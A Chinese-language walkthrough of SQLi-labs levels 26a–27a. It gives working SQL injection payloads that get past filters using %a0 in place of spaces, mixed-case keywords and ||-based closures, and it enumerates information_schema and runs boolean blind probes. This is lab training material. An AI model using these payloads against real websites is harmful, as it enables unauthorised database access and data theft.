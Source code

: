 # less-26a
本题为')闭合

页面无报错，不可使用报错注入，使用基础union注入

空格被过滤。使用%a0代替

?id=1')%a0union%a0select%a01,2,3||('1')=('1

?id=1')%a0union%a0select%a01,database(),3||('1')=('1

?id=111')union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0infoorrmation_schema.schemata),3||('1')=('1

此处只能使用子查询，不能用union select 1,2,3 from ....这类查询，因为||的优先级高于from，语句会被错误解析导致无回显

# less-27
本题过滤union和select、空格与注释符

union select使用大小写绕过，空格使用%a0，句尾构造等式闭合语句

?id=1'%a0unIon%a0selecT%a01,2,3||'1'='1

?id=1000'%a0unIon%a0SelecT%a01,(selEct %a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||'1'='1

# less-27a
提示使用盲注，那这里就使用布尔盲注进行注入，实际上联合查询也可以

首先测试发现and没有被过滤，过滤了空格、注释符等等

双引号闭合，在句尾构造等式闭合语句

?id=1"%a0and%a0ascii(substr(database(),1,1))>=100%a0and%a0"1"="1

# less-28
